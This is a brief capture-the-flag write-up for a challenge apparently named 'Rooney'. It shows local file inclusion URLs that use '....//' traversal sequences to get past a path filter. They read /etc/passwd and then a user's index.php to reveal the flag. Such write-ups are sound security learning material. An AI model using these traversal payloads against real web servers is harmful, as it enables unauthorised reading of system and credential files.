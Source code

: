 # Rooney
## LFI
`http://178.62.48.181/~rooney/?path=....//index.php`

`http://178.62.48.181/~rooney/?path=....//....//....//....//....//etc/passwd`

=> `th1sizveryl0ngus3rn4me:x:1001:1001:,,,:/home/th1sizveryl0ngus3rn4me:/bin/bash`


`http://178.62.48.181/~rooney/?path=....//....//....//....//home/th1sizveryl0ngus3rn4me/public_html/index.php`

=> `ASIS{I_l0V3_Us3rD1r_Mpdul3!!}`
